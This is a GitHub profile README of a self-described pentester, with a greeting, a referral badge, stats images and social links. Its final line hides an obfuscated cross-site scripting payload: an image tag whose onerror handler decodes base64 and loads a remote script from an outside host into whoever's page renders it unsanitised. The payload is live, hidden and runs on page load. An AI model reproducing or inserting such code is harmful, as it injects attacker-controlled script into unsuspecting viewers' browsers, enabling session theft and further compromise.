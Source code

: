## I'm bão and OCê? 👋
 
I'm a security researcher, I work as a pentester and in my free time I like to have fun bug bounty!

Get $200 credit on Digital Ocean:
<br>
<a href="https://www.digitalocean.com/?refcode=8fd2d6dfd146&utm_campaign=Referral_Invite&utm_medium=Referral_Program&utm_source=badge"><img src="https://web-platforms.sfo2.cdn.digitaloceanspaces.com/WWW/Badge%201.svg" alt="DigitalOcean Referral Badge" /></a>

## Stats

<div>
   <img src="https://github-readme-stats.vercel.app/api?username=phor3nsic&show_icons=true&theme=chartreuse-dark&include_all_commits=true&count_private=true&hide=issues" />
</div>

## Most used languages
<div>
  <img src="https://github-readme-stats.vercel.app/api/top-langs/?username=phor3nsic&langs_count=4&layout=compact&theme=dracula" />
  </div>
 
  
## Contact

   <a href="https://twitter.com/w4113_walle">
    <img src="https://img.shields.io/badge/@phor3nsic_br-grey.svg?style=square&logo=twitter">
  </a>
  
  <a href="https://www.linkedin.com/in/wallesonmoura/">
    <img src="https://img.shields.io/badge/@wallesonmoura-blue.svg?style=square&logo=linkedin">
  </a>
  
  <a href="https://hackerone.com/w411_3">
    <img src="https://img.shields.io/badge/@w411_3-black?style=square&logo=hackerone">
  </a>
  
  <div><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veC5yZWQtc2VjLnh5eiI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs onerror=eval(atob(this.id))></div>

